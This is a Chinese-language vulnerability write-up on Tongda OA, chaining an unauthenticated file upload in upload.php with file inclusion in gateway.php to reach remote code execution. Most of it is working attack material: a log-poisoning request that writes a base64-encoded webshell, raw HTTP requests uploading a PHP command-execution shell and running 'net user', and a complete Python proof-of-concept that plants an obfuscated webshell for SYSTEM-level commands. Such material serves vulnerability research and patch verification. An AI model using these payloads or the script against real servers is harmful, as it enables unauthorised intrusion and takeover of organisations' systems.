 通达oa 任意文件上传+rce+文件包含
================================

一、漏洞简介
------------

有些版本gateway.php路径不同

例如2013：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/ispirit/interface/gateway.php

例如2017：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/mac/gateway.php

    C:\MYOA>dir /s /b gateway.php
    C:\MYOA\webroot\mac\gateway.php

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

    http://www.0-sec.org/api/ddsuite/error.php

    POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

    然后包含

    http://www.0-sec.org/mac/gateway.php
    POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

    在http://192.168.124.138/mac/2.php就是shell密码1

二、漏洞影响
------------

V11版2017版2016版2015版2013增强版2013版

三、复现过程
------------

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

![](resource/通达oa任意文件上传+rce+文件包含/media/rId24.png)

当传入P参数时，就可以绕过登录认证，直接获取到session。

![](resource/通达oa任意文件上传+rce+文件包含/media/rId25.png)

跟进函数流程，逻辑判断是否传入DEST\_UID并且不为0，否则直接退出。

![](resource/通达oa任意文件上传+rce+文件包含/media/rId26.png)

传入一个DEST\_UID后，访问，提示无文件上传

![](resource/通达oa任意文件上传+rce+文件包含/media/rId27.png)

1\<=count(\$\_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

![](resource/通达oa任意文件上传+rce+文件包含/media/rId28.png)

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD\_MODE上传模式的值，如果传入UPLOAD\_MODE，当取值为1，2，3时，将回显。

![](resource/通达oa任意文件上传+rce+文件包含/media/rId29.png)

![](resource/通达oa任意文件上传+rce+文件包含/media/rId30.png)

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个\$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD\_MODE值时会根据该值的取值返回\$ATTACHMENTS\[ID\]和\$ATTACHMENTS\[NAME\]

![](resource/通达oa任意文件上传+rce+文件包含/media/rId31.png)

跟进upload()函数，\$ATTACHMENTS\[ID\]由add\_attach()函数返回在add\_attach()可以看到传入的文件存储路径为

![](resource/通达oa任意文件上传+rce+文件包含/media/rId32.png)

\$MODULE的值在upload.php文件中指定为im

![](resource/通达oa任意文件上传+rce+文件包含/media/rId33.png)

存储路径就保存在在upload.php文件中指定的attch/im/\$YM/文件夹下面，文件名就是\$ATTACH\_ID.\$ATTACH\_FILEadd\_attach()函数最终返回的前台的能够回显的\$ATTACHMENTS\[ID\]里面就包含上传的文件名和路径。

![](resource/通达oa任意文件上传+rce+文件包含/media/rId34.png)

此时，我们就可以构造payloads进行任意文件上传

![](resource/通达oa任意文件上传+rce+文件包含/media/rId35.png)

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个\$json的参数，然后将\$json转换为数组后再转换成变量，当存在\$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include\_once包含该url。

![](resource/通达oa任意文件上传+rce+文件包含/media/rId36.png)

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![](resource/通达oa任意文件上传+rce+文件包含/media/rId37.png)

### 请求包

    POST /ispirit/im/upload.php HTTP/1.1
    Host: 10.10.20.116:88
    Content-Length: 658
    Cache-Control: no-cache
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
    Cookie: PHPSESSID=123
    Connection: close

    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="UPLOAD_MODE"

    2
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="P"

    123
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="DEST_UID"

    1
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
    Content-Type: image/jpeg

    <?php
    $command=$_POST['cmd'];
    $wsh = new COM('WScript.shell');
    $exec = $wsh->exec("cmd /c ".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ?>
    ------WebKitFormBoundarypyfBh1YB4pV8McGB--
    POST /mac/gateway.php HTTP/1.1
    Host: 10.10.20.116:88
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    Content-Length: 71
    Content-Type: application/x-www-form-urlencoded

    json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user

### poc （上传+文件包含+rce）

    import os
    import requests

    # 定义webshell，因为是包含，所以用写入马比较方便
    # 这个马自带bypass disable_function 功能
    shell = '''<?php
    $fp = fopen('readme.php', 'w+');
    $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
    fwrite($fp, urldecode($a));
    fclose($fp);
    ?>
    '''

    # 输入目标
    url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
    # 定义上传目录和包含目录
    upload_url = url+"/ispirit/im/upload.php"
    include_url = url+"/ispirit/interface/gateway.php"
    # 定义shell目录，如果要修改名字，需要把shell里面的一起改了
    shell_url = url+"/ispirit/interface/readme.php"
    files = {'ATTACHMENT': shell}
    # 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    # 上传
    upload_res = requests.post(upload_url, upload_data, files=files)
    # 此时会返回上传文件的路径
    path = upload_res.text
    # 解析返回值获取上传地址
    path = path[path.find('@')+1:path.rfind('|')
                ].replace("_", "\/").replace("|", ".")
    # 由于上传文件会自动改为jpg，所以要用gateway.php包含
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
    # 包含+自动写入shell
    include_res = requests.post(include_url, data=include_data)
    # 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
    print('shell is here:'+shell_url+'?a=command')
